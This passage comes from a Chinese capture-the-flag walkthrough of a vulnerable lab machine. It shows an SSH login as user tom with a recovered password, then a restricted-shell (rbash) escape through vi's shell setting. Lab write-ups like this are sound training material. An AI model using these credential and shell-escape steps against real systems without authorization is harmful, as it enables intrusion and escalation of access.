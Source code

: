 登录jerry用户，得到flag2

![image-20221004211536844](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210042115923.png)

``Flag 2:If you can't exploit WordPress and take a shortcut, there is another way.Hope you found another entry point.``

``如果你不能利用WordPress并使用快捷方式，还有另一种方法。希望您找到另一个入口点。``

提示了我们不能直接通过cms漏洞拿到shell了，让我们找另一种方法

### 3.主机端渗透

#### ssh协议远程登录

```
ssh 用户名@主机地址 -p 端口
ssh jerry@192.168.119.135 -p 7744
```

输入密码错误

换tom试试

```
ssh tom@192.168.119.135 -p 7744
parturient
```

登录成功！

![image-20221004212228970](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210042122090.png)

rbash限制，权限低

#### rbash逃逸

具体可参考[rbash逃逸方法总结](https://blog.csdn.net/qq_43168364/article/details/111830233)

rbash限制后能进行的操作

```
echo $PATH
#查看上面得到path路径的所有文件
#运行结果 /home/tom/usr/bin
echo /home/tom/usr/bin/*
```

![image-20221004212628490](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210042126685.png)

可以看见能用这四个命令，唯一有用的就只有vi（编辑器）这个命令，这里可以里用vi或者是BASH_CMDS设置shell来绕过rbash，然后再设置环境变量添加命令

##### 方法一：vi设置shell

先进入vi编辑器界面：``vi``

然后按Esc键，输入：``:set shell=/bin/bash``

设置好shell并回车，接着输入： ``:shell``
